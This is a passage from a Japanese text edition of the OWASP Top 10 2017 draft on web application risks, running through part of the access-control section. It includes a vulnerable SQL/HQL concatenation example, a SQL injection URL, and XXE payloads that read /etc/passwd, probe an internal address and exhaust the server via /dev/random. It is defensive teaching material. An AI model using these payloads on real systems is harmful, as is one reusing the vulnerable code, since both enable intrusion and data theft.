





最も重大なウェブアプリケーションリスク トップ10
November 20, 2017
Comments requested per instructions within

 |
|
|---|---|
| https://owasp.org | この成果物はクリエイティブコモンズ Attribution-ShareAlike 4.0 International License のもとでリリースされています |
これはOWASP Top 10のテキスト版です。翻訳者などテキスト版に関心のある方には便利です。しかし、PowerPoint/PDF版を正式版としており、この版は正式版ではありません。
現時点で募集しているのは
訂正、問題点などをログとして記録するためGithubを使うことを強く勧めています:
この公共の透明性を担保する仕組みにより、追跡性を提供するとともに、リリース前の最終段階に寄せられた多くのご意見の取扱いについても確認できます。
< replace me with a toc >
The Open Web Application Security Project (OWASP/日本語: オワスプ) は、オープンなコミュニティであり、組織がアプリケーションやAPIを開発、調達、メンテナンスするにあたりそれらが信頼できるようになることに専念しています。
OWASPには、自由でオープンなものがあります:
さらに多くの情報はこちら: https://www.owasp.org
すべてのOWASPのツール、ドキュメント、ビデオ、プレゼンテーション、そしてチャプターは自由でオープンなものであり、アプリケーションセキュリティを改善する人なら誰でも活用することができます。
わたしたちはアプリケーションセキュリティを、人、プロセス、および技術の問題として提唱しています。最も効果的なアプリケーションセキュリティへのアプローチはそれらの領域を改善することが必要だからです。
OWASPは新しいタイプの組織です。商業的な圧力に縛られないという自由は、アプリケーションセキュリティに関する、偏りのない、実用的な、かつ費用対効果の高い情報を提供することを可能にするからです。
商用のセキュリティ技術について、よく理解した上で利用することには賛同しますが、OWASPは、いかなるテクノロジ企業とも提携しません。OWASPは、さまざまな種類の資料を共同で、透明で、オープンな方法で制作します。
The OWASP Foundation(オワスプ・ファウンデーション)は、プロジェクトの長期的な成功を実現する非営利団体です。OWASPに関わるほとんどの人すなわちOWASPボード、チャプターリーダー、プロジェクトリーダー、プロジェクトメンバーはボランティアです。私たちは、革新的なセキュリティリサーチに対しては、金銭面とインフラストラクチャを提供することによってサポートします。
どうぞ、ご参加ください。

Copyright © 2003-2017 The OWASP Foundation. This document is released under the Creative Commons Attribution Share-Alike 4.0 license. For any reuse or distribution, you must make it clear to others the license terms of this work.
セキュアでないソフトウェアは財務、医療、防衛、エネルギーおよびその他の重要なインフラを損ないます。ソフトウェアがますます複雑になり、またつながるにつれて、アプリケーションセキュリティをやり遂げることは、いわば指数関数的に困難になっています。モダンなソフトウェア開発プロセスの急速な進歩により、共通するリスクを迅速かつ正確に発見し解決することは不可欠なものとなっています。我々にはもはや、このOWASP Top 10に示される比較的シンプルなセキュリティ問題を大目に見る余地などありません。
OWASP Top 10 - 2017の制作中に、多くのフィードバックを受け取りました。それらは、他の同様のOWASPプロジェクトに関する努力に勝るものでした。これは、コミュニティがこのOWASP Top 10にどれほどの情熱があるかを示しており、したがってOWASPにとって、大多数の活用にとってTop 10が適切なものにすることがどれほど重要なことであるかを示しています。
OWASP Top 10プロジェクトの当初の目標は、シンプルに開発者やマネージャーの意識を高めることでしたが、いまやTop 10はアプリケーションセキュリティのデファクト・スタンダードとなってきました。
このリリースにおいて、アプリケーションセキュリティの問題や改善提案は簡潔かつ確認できる方法で記述されています。これは、さまざまなアプリケーションセキュリティ計画において、OWASP Top 10の採用を促進するものとなっています。大規模な組織や、セキュリティの取り組みにおいて高いレベルの組織において、厳密な標準が求められているような場合には、OWASP Application Security Verification Standard (ASVS) を使うようお勧めします。しかし、ほとんどの場合、OWASP Top 10はアプリケーションセキュリティを始めるのに良いスタートとなります。
OWASP Top 10のさまざまなユーザーに対して、次のステップを提案しています。「開発者のための次のステップ」、「セキュリティテスト担当者のための次のステップ」、CIOやCISOに適した「組織のための次のステップ」、アプリケーションマネージャやアプリケーションのライフサイクルの責任を持つ人に適した「アプリケーションマネージャのための次のステップ」です。
長期的には、あらゆるソフトウェア開発チームと組織が、それぞれのカルチャーとテクノロジーに適合したアプリケーションセキュリティプログラムを作り上げていくようお勧めします。さまざまな形や規模のプログラムがあります。組織が今持っている強みを活かしながら、SAMM(ソフトウェア品質成熟度モデル)を用いてアプリケーションセキュリティプログラムを計測し、改善してください。
OWASP Top 10がアプリケーションセキュリティに関わる努力の助けになって欲しいと考えています。質問やコメント、またアイデアがあればOWASPに遠慮なくお知らせください。Githubプロジェクトレポジトリはこちらです:
OWASP Top 10プロジェクトと翻訳はこちらです:
最後に、OWASP Top 10 プロジェクトのリーダーシップを創設した Dave Wichers とJeff Williamsのすべてのご尽力と、コミュニティの助けがあればこれをやり遂げられると私たちチームを信じてくれたことに感謝を述べたいと思います。
OWASP Top 10 - 2017のスポンサー Autodesk 社に感謝します。
脆弱性の蔓延状況を示すデータやその他のご助力を提供してくださった組織ならびに個人は謝辞のリストに記載しました。
今回のメジャーアップデートでは、A8：2017-安全でないデシリアライゼーションとA10：2017-不十分なロギングとモニタリングという2つの問題を含む、いくつかの新しい問題が追加されています。OWASP Top 10の以前のリリースとの重要な差別化要素が２つあります。相当なコミュニティからのフィードバックと、数多くの組織から集められた広範囲のデータです。アプリケーションセキュリティ標準を準備するという状況のもとでは、おそらく最大量のデータが集められたのではないかと考えています。このことから、新しい版のOWASP Top 10が、現在数々の組織が直面している最も影響の大きなアプリケーションセキュリティリスクに向けられているという確信が得られます。
2017年版のOWASP Top 10は、主に、アプリケーションのセキュリティを専門とする企業から寄せられた40以上のデータと、500人以上の個々の人々による業界調査に基づいています。データは、数百の組織の、10万以上の実在するアプリケーションおよびAPIから集められた脆弱性にまたがるものです。Top 10の項目は、この蔓延度合いを反映しているデータにしたがって、悪用のしやすさ、検知のしやすさ、および影響についての共通認識の推計を組み合わせた上で、選択し、優先順位を付けます。
OWASP Top10の主要な目的は、開発者、デザイナー、アーキテクト、マネージャー、組織に、最も一般的かつ最も重要なWebアプリケーションセキュリティの弱点の影響について教育することです。また、これらのリスクの高い問題のある領域を守るための基本的なテクニックを提供し、現時点からどこへ進めるべきなかについてのガイダンスを提供します。
10まででやめない OWASP Developer's Guideや OWASP Cheat Sheet Seriesで説明されているように、Webアプリケーションの全体的なセキュリティに影響を与える可能性のある問題は数多くあります。これらは、WebアプリケーションやAPIを開発するどんな人にとっても、不可欠な情報です。WebアプリケーションおよびAPIの脆弱性を効果的に見つける方法に関するガイダンスは、OWASP Testing Guide に記載されています。
定期的に変更する OWASP Top 10はこれからも変化し続けます。また、あなたのアプリケーションコードの、1行も変更していなくても、脆弱になる可能性があります。新しい欠陥が発見され、攻撃方法が洗練されるからです。詳細については、Top 10の最後に掲載した、開発者、テスター、組織、アプリケーションマネージャのための次のステップの項にあるアドバイスを見直してみてください。
積極的に思考する 脆弱性を追いかけるのをやめ、アプリケーションセキュリティコントロールを強力なものに確立する準備ができたら、以下の文書を参照してください。OWASP Proactive Controls プロジェクトは、開発者がセキュリティをアプリケーションに組み込むための出発点を提供します。また、OWASP Application Security Verification Standard (ASVS)は、組織にとって、またアプリケーションレビュワーにとって何を検証したら良いかを示すガイドです。
賢くツールを活用する
セキュリティ脆弱性は、非常に複雑で深刻なコードに埋もれていることがあります。多くの場合、そのような弱点を発見して排除するための最も費用対効果の高いアプローチは、高度なツールを手元に備えている専門家です。ツールのみに依存することは、セキュリティに関する誤った感覚をもたらしてしまうので、お勧めしません。
左へ右へ、どこへでも進める セキュリティをソフトウェア開発の組織全体のカルチャーにかかわる不可欠なものとすることに集中してください。詳しい情報は、 OWASP Software Assurance Maturity Model (SAMM)にあります。
2017年版へのアップデートを支援するために、脆弱性データを寄稿した多くの組織に感謝したいと思います。私たちはデータの募集に対して40以上の回答を頂きました。初めて、Top 10リリースに貢献した全てのデータと寄稿者の全リストを明らかにしました。これは、これまでに公に収集されたものより大規模で多様な脆弱性データのコレクションの1つであると考えています。
このドキュメントのスペースに記載できる以上のさらに多くの貢献者がおられますので、その貢献に感謝するための専用ページを作成しました。これらの組織の皆さんが、ご自身たちの努力の結晶である脆弱性データを公に共有することで、喜んで最前線に立ってくれたことに感謝したいと思います。このような活動が成長し続けてより多くの組織において同様の協力が奨励されること、ひいては、これが証拠に基づくセキュリティの重要なマイルストーンの1つとみなされることを願っています。これらのすばらしい貢献がなければ、OWASP Top 10を作ることはできないからです。
業界ランキングの調査を仕上げるために時間を費やしてくれた500人以上の個人に本当に感謝します。皆さんの声は、Top 10に2つの新しい追加を決定する助けになりました。コメント、励まし、批判もすべて感謝しています。 貴重なお時間をいただき、感謝したいと思います。
非常に建設的なコメントを寄せて頂き、Top 10にこのアップデートを見直す時間をいただいた人たちに感謝します。皆さんのことは、可能な限り「謝辞」のページに記載しています。
そして最後に、世界中でOWASP Top 10をもっと手に取りやすくするため、Top 10のこのリリースを多数の言語に翻訳なさる翻訳者の皆さんに前もって感謝したいと思います。
前のバージョンから4年以上、世の中の変化は加速してきたため、OWASP Top 10 は変更を必要とされています。我々は、OWASP Top 10をすっかりリファクタリングし、手法を改良し、新しいデータ募集のプロセスを活用し、コミュニティと協働し、リスクを評価し直し、それぞれのリスクを一から書き直し、一般に利用されているフレームワークや言語への参照を追加しています。
ここ数年で、アプリケーションの基本的な技術とアーキテクチャは大きく変わりました:
コミュニティに向けて、2つのセキュリティ上の弱点に関する見識を提供してくれるよう求めました。500を超える意見をいただき、すでにデータによる裏付けのある問題(機微な情報の露出とXXE)を除き、二つの新しい問題があります:

攻撃者はアプリケーションを介して様々な経路で、ビジネスや組織に被害を及ぼします。それぞれの経路は、注意を喚起すべき深刻なリスクやそれほど深刻ではないリスクを表しています。

これらの経路の中には、検出や悪用がしやすいものもあれば、しにくいものもあります。同様に、引き起こされる被害についても、ビジネスに影響がないこともあれば、破産にまで追い込まれることもあります。組織におけるリスクを判断するためにまず、それぞれの「脅威エージェント」、「攻撃手法」、「セキュリティ上の弱点」などに関する可能性を評価し、組織に対する「技術面への影響」と「ビシネス面への影響」を考慮してみてください。最後に、これら全てのファクターに基づき、リスクの全体像を決定してください。
OWASP Top 10は、多様な組織のために、最も重大なウェブアプリケーションセキュリティリスクを特定することに焦点を当てています。これらのリスクに関して、以下に示すOWASP Risk Rating Methodologyに基づいた格付手法により、発生可能性と技術面への影響について評価します。

この版において、リスクの発生頻度や影響度を算出する、リスク格付の体系を更新しています。詳細は、「リスクに関する注記」を参照してください。
OWASP Risk Rating Methodologyでは、各リスクに関する発生可能性や影響度を算出するリスク格付方法をアップデートしています。詳細は「リスクに関する注記」を参照してください。
各組織はユニークであるため、侵害において脅威を引き起こすアクター、目標、影響度も各組織でユニークでしょう。
公共の利益団体において公開情報をCMSにより管理している場合や、医療システムにおいてセンシティブな健康記録を管理するために同じようなCMSを利用している場合に、同じソフトウェアであっても脅威を引き起こすアクターやビジネスへの影響は大きく異なります。そのため、脅威エージェントやビジネスへの影響に基づき、組織におけるリスクを理解することが重要です。
Top 10におけるリスクは、理解の促進及び混乱を招くことを避けるため、可能な限りCWEに沿った名称としています。
| リスク | 解説 |
|---|---|
| A1:2017-インジェクション | SQLインジェクション、NoSQLインジェクション、OSコマンドインジェクション、LDAPインジェクションといったインジェクションに関する脆弱性は、コマンドやクエリの一部として信頼されないデータが送信される場合に発生します。攻撃コードはインタープリタを騙し、意図しないコマンドの実行や、権限を有していないデータへのアクセスを引き起こします。 |
| A2:2017- 認証の不備 | 認証やセッション管理に関連するアプリケーションの機能は、不適切に実装されていることがあります。不適切な実装により攻撃者は、パスワード、鍵、セッショントークンを侵害したり、他の実装上の欠陥により、一時的または永続的に他のユーザーの認証情報を取得します。 |
| A3:2017-機微な情報の露出 | 多くのウェブアプリケーションやAPIでは、財務情報、健康情報や個人情報といった機微な情報を適切に保護していません。攻撃者は、このように適切に保護されていないデータを窃取または改ざんして、クレジットカード詐欺、個人情報の窃取やその他の犯罪を行う可能性があります。 機微な情報は特別な措置を講じないでいると損なわれることでしょう。保存や送信する時に暗号化を施すことや、ブラウザ経由でやり取りを行う際には安全対策を講じることなどが必要です。 |
| A4:2017-XML 外部エンティティ参照 (XXE) | 多くの古くて構成の悪いXMLプロセッサーにおいては、XML文書内の外部エンティティ参照を指定することができます。 外部エンティティは、ファイルURIハンドラ、内部ファイル共有、内部ポートスキャン、リモートコード実行、DoS（サービス拒否）攻撃により、内部ファイルを漏えいさせます。 |
| A5:2017-アクセス制御の不備 | 権限があるもののみが許可されていることに関する制御が適切に実装されていないことがあります。攻撃者は、このタイプの脆弱性を悪用して、他のユーザのアカウントへのアクセス、機密ファイルの表示、他のユーザのデータの変更、アクセス権の変更など、権限のない機能やデータにアクセスします。 |
| A6:2017-不適切なセキュリティ設定 | 不適切なセキュリティの設定は、最も一般的に見られる問題です。これは通常、安全でないデフォルト設定、不完全またはアドホックな設定、公開されたクラウドストレージ、不適切な設定のHTTPヘッダ、機微な情報を含む冗長なエラーメッセージによりもたらされます。 すべてのオペレーティングシステム、フレームワーク、ライブラリ、アプリケーションを安全に設定するだけでなく、それらに適切なタイミングでパッチを当てることやアップグレードをすることが求められます。 |
| A7:2017-クロスサイトスクリプティング (XSS) | XSSの脆弱性は、適切なバリデーションやエスケープ処理を行っていない場合や、HTMLやJavaScriptを生成できるブラウザAPIを用いているユーザ入力データで既存のWebページを更新する場合に発生します。 XSSにより攻撃者は、被害者のブラウザでスクリプトを実行してユーザーセッションを乗っ取ったり、Webサイトを改ざんしたり、悪意のあるサイトにユーザーをリダイレクトします。 |
| A8:2017-安全でないデシリアライゼーション | 安全でないデシリアライゼーションは、リモートからのコード実行を誘発します。デシリアライゼーションの欠陥によるリモートからのコード実行に至らない場合でさえ、リプレイ攻撃やインジェクション攻撃、権限昇格といった攻撃にこの脆弱性を用います。 |
| A9:2017-既知の脆弱性のあるコンポーネントの使用 | ライブラリ、フレームワークやその他ソフトウェアモジュールといったコンポーネントは、アプリケーションと同等の権限で動いています。脆弱性のあるコンポーネントが悪用されると、深刻な情報損失やサーバの乗っ取りにつながります。既知の脆弱性があるコンポーネントを利用しているアプリケーションやAPIは、アプリケーションの防御を損ない、様々な攻撃や悪影響を受けることになります。 |
| A10:2017-不十分なロギングとモニタリング | 不十分なロギングとモニタリングは、インシデントレスポンスに組み込まれていないか、非効率なインテグレーションになっていると、攻撃者がシステムをさらに攻撃したり、攻撃を継続できるようにし、ほかのシステムにも攻撃範囲を拡げ、データを改竄、破棄、破壊することを可能にします。ほとんどのデータ侵害事件の調査によると、侵害を検知するのに200日以上も要しており、また内部機関のプロセスやモニタリングからではなく、外部機関によって検知されています。 |
| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
|---|---|---|
| アクセスレベル : 悪用のしやすさ 3 | 蔓延度 2 : 検出のしやすさ 3 | 技術面への影響 3 : ビジネス面への影響 |
| ほとんどのどんなデータソースもインジェクションの経路となりえます。環境変数、パラメータ、外部及び内部のWebサービス、そしてあらゆる種類のユーザというように。 インジェクション欠陥は、攻撃者が悪意を持ったデータをインタープリタに送ることができる場合に発生します。 | インジェクション欠陥は、特にレガシーコードでは、とても一般的です。インジェクション脆弱性は、SQL、LDAP、XPath、あるいはNoSQLクエリ、OSコマンド、XMLパーサー、SMTPヘッダー、式言語、およびORMクエリでよく見られます。インジェクション欠陥は、コードを調べると簡単に発見できます。スキャナやファジングは、攻撃者がインジェクション欠陥を見つけるのに役立ちます。 | インジェクションは、データの損失、破壊、権限ない者への情報漏洩、アカウンタビリティの喪失、またはアクセス拒否につながる可能性があります。インジェクションは、ホストの完全な乗っ取りにつながることがあります。ビジネスへの影響は、アプリケーションとデータの重要性に依存します。 |
次のような状況では、アプリケーションはこの攻撃に対して脆弱です:
より一般的なインジェクションとしては、SQL、NoSQL、OSコマンド、オブジェクト・リレーショナル・マッピング（ORM）、LDAP、およびEL式（Expression Language）またはOGNL式（Object Graph Navigation Library）のインジェクションがあります。コンセプトはすべてのインタープリタで同じです。ソースコードをレビューすれば、インジェクションに対してアプリケーションが脆弱であるか最も効果的に検出できます。そして、すべてのパラメータ、ヘッダー、URL、Cookie、JSON、SOAP、およびXMLデータ入力の完全な自動テストも効果的です。また、組織は静的ソースコード解析ツール(SAST)と動的アプリケーションテストツール(DAST)をCI/CDパイプラインに導入できます。これにより、新たに作られてしまったインジェクション欠陥を稼働環境に展開する前に検出できます。
インジェクションを防止するためにはコマンドとクエリからデータを常に分けておくことが必要です。
シナリオ #1: あるアプリケーションは信頼できないデータを用いることで以下のような脆弱なSQL呼び出しを作ってしまいます。
String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";
シナリオ #2: 同様に、アプリケーションがフレームワークを盲信すると、脆弱性のあるクエリになりえます (例えば、Hibernateクエリ言語(HQL)):
Query HQLQuery = session.createQuery("FROM accounts WHERE custID='" + request.getParameter("id") + "'");
これら両方のケースにおいて、攻撃者はブラウザでパラメータ'id'の値を' UNION SELECT SLEEP(10);--に変更します。例えば:
http://example.com/app/accountView?id=' UNION SELECT SLEEP(10);--
これで、両方のクエリの意味が変えられ、accountsテーブルにあるレコードが全て返されることになります。さらなる攻撃により、データの改ざんや削除、ストアドプロシージャの呼び出しが可能です。
| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
|---|---|---|
| アクセスレベル : 悪用のしやすさ 3 | 蔓延度 2 : 検出のしやすさ 2 | 技術面への影響 3 : ビジネス面への影響 |
| 攻撃者は、アカウントリスト攻撃（パスワードリスト攻撃）に使える数十億にのぼる有効なユーザ名とパスワードの組み合わせ、初期設定の管理者アカウントリスト、自動化された総当たり攻撃、辞書攻撃ツールを悪用してきます。そして、彼らはセッション管理における攻撃手法、特に有効期限が切れたセッショントークンに関連したものをよく理解しています。 | 一般的にユーザ認証とアクセス制御を設計・実装するため、認証の不備がよく見られます。セッション管理はユーザ認証とアクセス制御の基盤であり、ステートフルなアプリケーションすべてがセッション管理を実装しています。攻撃者は手動で認証の不備を発見し、自動化ツールによるパスワードリスト攻撃や辞書攻撃を仕掛けて、それらを攻撃できます。 | 攻撃者は、システムを侵害するために、いくつかのアカウントまたはたった一つの管理者アカウントのアクセス権限を奪取すれば十分です。アプリケーション次第で、この攻撃はマネーロンダリング、社会的な不正行為、個人情報の侵害、法的に保護された重要な機密情報の漏えいにつながる恐れがあります。 |
認証に関連した攻撃を防ぐためには、ユーザ認証、セッション管理の設計・実装を確認することが重要です。
アプリケーションが下記の条件を満たす場合、認証の設計・実装に問題があるかもしれません:
シナリオ #1: アカウントリスト攻撃やよく知られたパスワードのリストを用いた攻撃は、広く知られた攻撃手法です。アプリケーションに自動化された攻撃やアカウントリスト攻撃の対策が実装されていないなら、そのアプリケーションは「強力なパスワード検証ツール」として認証情報の有効かどうかを調べるのに悪用されかねません。
シナリオ #2: ほとんどの認証に関連する攻撃は、パスワードを唯一の認証要素として使い続けてきたために発生しています。かつてベストプラクティスとされてきたパスワードの定期変更や複雑性の要求は、ユーザーに弱いパスワードを繰り返し使うよう促すとの見方があります。そこで、あらゆる組織がNIST 800-63に従ってこのようなプラクティスをやめ、多要素認証を使うことが推奨されています。
シナリオ #3: アプリケーションにセッションタイムアウトが適切に実装されていません。ユーザが公共の場のコンピュータでそのアプリケーションにアクセスします。そのユーザは、アプリケーションからログアウトする代わりに単純にブラウザでそのタブを閉じて、その場を立ち去ります。一時間後、攻撃者が同じコンピュータでブラウザを起動すると、まだそのユーザでログインしたままになっています。
| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
|---|---|---|
| アクセスレベル : 悪用のしやすさ 2 | 蔓延度 3 : 検出のしやすさ 2 | 技術面への影響 3 : ビジネス面への影響 |
| 攻撃者は、ブラウザのようなクライアントからデータを送信するときに暗号化通信を直接攻撃するよりも、暗号鍵を盗み出したり、中間者攻撃を仕掛けたり、サーバ上にある平文のデータを盗み出します。一般的には、このリスクでは手動による攻撃を必要とします。あらかじめ盗み出したパスワードデータベースには、グラフィック処理ユニット(GPU)を使って総当たり攻撃できます。 | ここ数年以降、このリスクはもっとも一般的で影響力のある攻撃になりました。もっとも一般的な攻撃手法は、暗号化されていない機微な情報を狙ったものです。暗号化されている場合でも、弱い暗号鍵の生成と管理、弱い暗号アルゴリズム、プロトコル、暗号スイートの利用を狙った攻撃手法が知られています。特に、弱いハッシュ関数によるパスワードハッシュを狙った攻撃がよく知られています。データを送信する場合には、サーバサイドの弱点を容易に検知できますが、サーバ内に保存したデータの問題の検知は困難です。 | 保護に失敗し保護すべきすべての情報が台無しになることは頻繁に生じています。多くの場合、これらの情報には健康記録、認証情報、個人情報、クレジットカードなどの機微な情報(PII)が含まれています。これらのデータについてはしばしば、EUにおけるGDPRや各地域のプライバシー関連の法律など、法律や規則で定められた保護が要求されます。 |
まず、送信あるいは保存するデータが保護を必要とするか見極めます。例えば、パスワード、クレジットカード番号、健康記録、個人データやビジネス上の機密は特に保護する必要があります。データに対して、EUの一般データ保護規則(GDPR)のようなプライバシー関連の法律が適用される場合、また、PCIデータセキュリティスタンダード(PCI DSS)など金融の情報保護の要求があるような規定がある場合には、特に注意が必要です。そのようなデータすべてについて、以下を確認してください:
ASVS Crypto (V7)、Data Protection (V9)、そしてSSL/TLS (V10)を参照。
最低限実施すべきことを以下に挙げます。そして、参考資料を検討してください:
シナリオ #1: あるアプリケーションは、データベースの自動暗号化を使用し、クレジットカード番号を暗号化します。しかし、そのデータが取得されるときに自動的に復号されるため、SQLインジェクションによって平文のクレジットカード番号を取得できてしまいます。
シナリオ #2: あるサイトは、すべてのページでTLSで使っておらず、ユーザにTLSを強制していません。また、そのサイトでは弱い暗号アルゴリズムをサポートしています。攻撃者はネットワークトラフィックを監視し（例えば、暗号化していない無線ネットワークで）、HTTPS通信をHTTP通信にダウングレードしそのリクエストを盗聴することで、ユーザのセッションクッキーを盗みます。そして、攻撃者はこのクッキーを再送しユーザの(認証された)セッションを乗っ取り、そのユーザの個人データを閲覧および改ざんできます。また、攻撃者はセッションを乗っ取る代わりに、すべての送信データ（例えば、入金の受取人）を改ざんできます。
シナリオ #3: あるパスワードデータベースは、ソルトなしのハッシュまたは単純なハッシュでパスワードを保存しています。もし、ファイルアップロードの欠陥があれば、攻撃者はそれを悪用して、パスワードデータベースを取得できます。事前に計算されたハッシュのレインボーテーブルで、すべてのソルトなしのハッシュが解読されてしまいます。そして、たとえソルトありでハッシュ化されていても、単純または高速なハッシュ関数で生成したハッシュはGPUで解読されてしまうかもしれません。
| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
|---|---|---|
| アクセスレベル : 悪用のしやすさ 2 | 蔓延度 2 : 検出のしやすさ 3 | 技術面への影響 3 : ビジネス面への影響 |
| 攻撃者は、脆弱なコード、依存関係、または統合を利用して、XML文書をアップロードしたり、悪意のあるコンテンツをXMLドキュメントに含めることができる場合、その脆弱なXMLプロセッサを悪用できます。 | 多くの古いXMLプロセッサにおいて、初期設定で、外部エンティティ（XML処理中に参照先のデータを取得し実行されるURI）を指定できます。 SAST ツールで依存関係と構成を調べることでこの問題を発見できます。 DAST ツールでこの問題を検出しエクスプロイトを見つけるには手動による作業を加える必要があります。手動でテストをするなら、XXEのテスト方法を習得する必要があります。これは、2017年の時点では一般にテストされていないためです。 | これらの欠陥は、その他の攻撃と同様に、データの抽出、サーバからのリモート要求の実行、内部システムのスキャン、サービス不能攻撃の実行に使用できます。 |
アプリケーション、特にXMLベースのWebサービスやダウンストリーム統合が下記の条件を満たす場合、脆弱である可能性があります:
開発者のトレーニングは、XXEを特定し、軽減するために不可欠です。加えて、XXEを防ぐには以下のことが不可欠です:
もしこうしたコントロールができない場合には、仮想パッチ、APIセキュリティゲートウェイ、あるいはWebアプリケーションファイアウォール（WAF）を使用して、XXE攻撃を検出、監視、およびブロックすることを検討してください。
多くの公開サーバでのXXE問題が発見されています。また、組み込み機器に対する攻撃も確認されています。XXEは、深くネストされた依存関係を含むさまざまな予期しない場所で発生します。最も簡単な攻撃方法は、サーバが受け入れる場合に、悪質なXMLファイルをアップロードすることです。
シナリオ #1: 攻撃者はサーバからデータを取り出そうと試みます:
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>シナリオ #2: 攻撃者は、上記のENTITY行を次のように変更して、サーバーのプライベートネットワークを調べようとします:
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>シナリオ #3: 攻撃者は終わりのないファイルを含めることでDoS攻撃を試みます:
<!ENTITY xxe SYSTEM "file:///dev/random" >]>| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
|---|---|---|
| アクセスレベル : 悪用のしやすさ 2 | 蔓延度 2 : 検出のしやすさ 2 | 技術面への影響 3 : ビジネス面への影響 |
| アクセス制御の悪用は攻撃者の基本スキルです。 静的ソースコード解析ツール(SAST)と動的アプリケーションテストツール(DAST)はアクセス制御の不存在を検出できますが、それが存在する場合にアクセス制御が有効に機能していることを検証することはできません。アクセス制御は、手作業で、場合によっては特定のフレームワークにおけるアクセス制御の不存在の自動チェックによって発見することができます。 | アクセス制御上の欠陥は、一般に、自動検出が行われないことやアプリケーション開発者による効果的な機能テストが行われないことによって生じます。 アクセス制御の検出は、通常は自動化された静的または動的テストには適していません。 手動テストは、HTTPメソッド（GET対PUTなど）、コントローラ、オブジェクト直接参照などでの欠落している、もしくは機能していないアクセス制御を検出するための最良の方法です。 | 